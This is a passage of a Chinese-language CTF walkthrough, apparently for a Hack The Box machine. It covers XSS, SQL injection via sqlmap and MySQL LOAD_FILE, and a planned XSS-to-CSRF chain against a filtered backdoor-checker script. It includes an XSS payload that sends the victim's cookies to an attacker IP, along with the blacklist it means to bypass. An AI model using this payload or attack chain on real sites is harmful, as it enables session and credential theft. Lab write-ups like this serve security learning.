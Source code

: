 利用 burp suite 分析后，看到用户名和密码的 cookie 是 base64 编码的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KNhS8XEYqUA2qMzdhR0bwI2fGcmvE3ibAtzR6NWkEopDzg2PibuibU9iaxg/640?wx_fmt=png)

对 comment 值进行注入测试，发现存在 **XSS 攻击 **...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KtibhoQl9lwM7KeTJw0bic8l5wYrP9Vn5Sw8bn3TqDM3NePqicibAQyZB0w/640?wx_fmt=png)

```
<img src=x onerror=this.src='http://10.10.14.51/?cookies='+btoa(document.cookie) />
```

注入后可发现 cookie 得哈希值...== 这是 base64，转码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1Ke0qvU9mFhicL5icOJgKVlfckOb9oovicLdMyaDQR2OGHKfOGb7j8LqkNw/640?wx_fmt=png)

```
echo -n ... | base64 -d
```

通过 XSS 获得了用户名和密码.. 登陆即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KxtRibict63ibuMufK9kyT3yCTOZA5w9SibQcVm5Os1UADGeDTAtu0cwdUg/640?wx_fmt=png)

登陆后，可以看到只可以使用 dir 命令，是防止黑客的攻击限制了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KDWwsZnhAzxac5nzt1jH8rV9SCEZRia6SoVYI6rOgsQ0cJzh5e9DDCwA/640?wx_fmt=png)

可以进行 sql 注入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1Ko0u5uuR2Zf2NvYCNrPCVErzlbfg7NCA1DWB7RiaO1Q8PzFRpF1uLbCQ/640?wx_fmt=png)

通过了 sqlmap 进行挖掘：

```
[参考mysql](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)
```

对 sql 注入的链接，利用 MySQL LOAD_FILE（）函数用于读取服务器上的文件...  

可以看到成功获得了 user 信息...

这里需要获得反弹 shell 外壳.. 否则无法继续下一步 root 信息获取...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1K9uYMEkErU4hZChHqnoG4riaCZnFsmibzxLrR3yibQzTWb80fbr5gKDJJw/640?wx_fmt=png)

在 admin 目录下发现了 backdoorchecker.php 文件，可以看到

```
$bad = array('$(','&');
```

 `$(` 并将 `&` 列入黑名单，并且

```
$_SERVER['REMOTE_ADDR'] == "::1"
```

仅允许来自其的请求... 所以可以利用 XSS 来创建一个 CSRF，开始测试下....  
